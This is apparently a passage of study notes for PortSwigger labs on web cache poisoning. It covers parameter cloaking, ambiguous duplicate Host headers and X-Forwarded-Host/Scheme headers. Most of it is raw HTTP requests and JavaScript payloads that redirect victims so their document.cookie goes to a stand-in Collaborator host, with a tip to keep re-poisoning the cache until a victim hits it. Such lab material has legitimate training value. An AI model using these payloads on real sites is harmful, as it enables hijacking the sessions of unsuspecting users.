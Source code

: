 > Cache Cloaking Cookie Capturing payload below, keep poising cache until victim hits stored cache.

```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=document.location='https://COLLABORATOR.com?nuts='%2bdocument.cookie%3b HTTP/2
```

> Below is [Url Decoded](https://www.urldecoder.org/) payload.

```
GET/js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=document.location='https://COLLABORATOR.com?nuts='+document.cookie; HTTP/2
```

[PortSwigger Lab: Parameter cloaking](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking)

#### Poison ambiguous request

> Adding a second **Host** header with an exploit server, this _**identify**_ a ambiguous cache vulnerability and routing your request. Notice that the exploit server in second **Host** header is reflected in an absolute URL used to import a script from `/resources/js/tracking.js`.

```html
Host: TARGET.net
Host: exploit.net
```

> On the exploit server set a file as same path target calls to `/resources/js/tracking.js`, this will contain the payload. Place the JavaScript payload code below to perform a cookie stealer.

```
document.location='https://Collaborator.com/?CacheCookies='+document.cookie;
```

[PortSwigger Lab: Web cache poisoning via ambiguous requests](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests)

#### Cache Poison multiple headers

> Identify that cache hit headers in responses, then test if the target support `X-Forwarded-Host` or `X-Forwarded-Scheme` headers. These headers can allow for the stealing of victim session cookie.

> Identify if adding the two **Forwarded** headers to the GET `/resources/js/tracking.js` request, result in a change to the location response header. This _**identify**_ positive poisoning of the cache with multiple headers.

```html
GET /resources/js/tracking.js?cb=123 HTTP/2
Host: TARGET.net
X-Forwarded-Host: EXPLOIT.net
X-Forwarded-Scheme: nothttps
```

> On the exploit server change the file path to `/resources/js/tracking.js` and the update the poison request `X-Forwarded-Host: EXPLOIT.net` header. Place the payload on exploit server body.

```html
document.location='https://Collaborator.com/?poisoncache='+document.cookie;
```
